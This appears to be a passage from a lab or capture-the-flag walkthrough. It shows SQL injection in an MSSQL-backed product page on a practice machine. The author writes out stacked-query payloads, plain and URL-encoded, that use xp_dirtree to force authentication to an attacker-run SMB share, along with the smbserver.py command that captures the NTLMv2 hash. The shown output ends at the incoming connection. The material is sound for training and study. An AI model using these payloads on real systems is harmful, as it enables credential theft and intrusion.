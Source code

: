 ```sql
SELECT Name, ProductNumber, Price FROM Product WHERE CategoryId = ?;
```

Assuming the URL parameter (`ProductSubCategoryId`) will replace the `?`, what could I use to verify that I am able to perform an unintended action? Here's one way I verified using a single-quote (`'`):
![]({{ image_path }}{{ page.name }}/Pasted image 20231026135209.png)
This meant that the query was somehow being manipulated in an unintended manner. The query with the single-quote would look something like this.
```sql
SELECT Name, ProductNumber, Price FROM Product WHERE CategoryId = 26';
```

## Initial Access Through NTLM Theft
Being able to successfully break the query means an attacker can manipulate the query because it is not being sanitized in the backend. But breaking the query is not enough to gain initial access. One thing an individual can do is stack queries in `MSSQL`, meaning appending queries using the semi-colon (`;`) delimiter. But what query to stack? My main goal by having access to `MSSQL` query execution is to steal NTLMv2 hashes. 

A very brief description of NTLMv2 theft is when a client authenticates to a server over NTLMv2 such as a SMB server. This authentication process reveals the authenticating user's NTLMv2 hash, which can be cracked using a password cracker such as `hashcat`. 

To initiate an authentication process through the `MSSQL` prompt, I can use the `xp_dirtree` command. In a typical `MSSQL` prompt, the full command to initiate an authentication using `xp_dirtree` to my SMB server would look like this.
```sql
1> EXEC master ..xp_dirtree '\\10.10.14.22\share';
```

Hence, the stacked query in the URL would look like this.
```
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18; EXEC master ..xp_dirtree '\\10.10.14.22\share'; --
```

On top of this, ensure that all necessary characters are URL encoded. Without the correct encoding, the correct characters may not be communicated to/in the backend.  
```
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18;%20EXEC%20master%20..xp_dirtree%20%27\\10.10.14.22\share%27;%20--
```

To start a listening SMB server (attacking machine) that the client (victim machine) would be authenticating to, I used `smbserver.py`.
```
$ smbserver.py share . -smb2support
```

Now, I can initiate an authentication request using my constructed URL.
![]({{ image_path }}{{ page.name }}/Screenshot 2023-10-27 at 12.04.21 PM.png)

And there's my NTLMv2 hash.
```
$ smbserver.py share . -smb2support
Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b26 - Copyright 2022 Fortra - forked by ThePorgs

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.104,49713)
```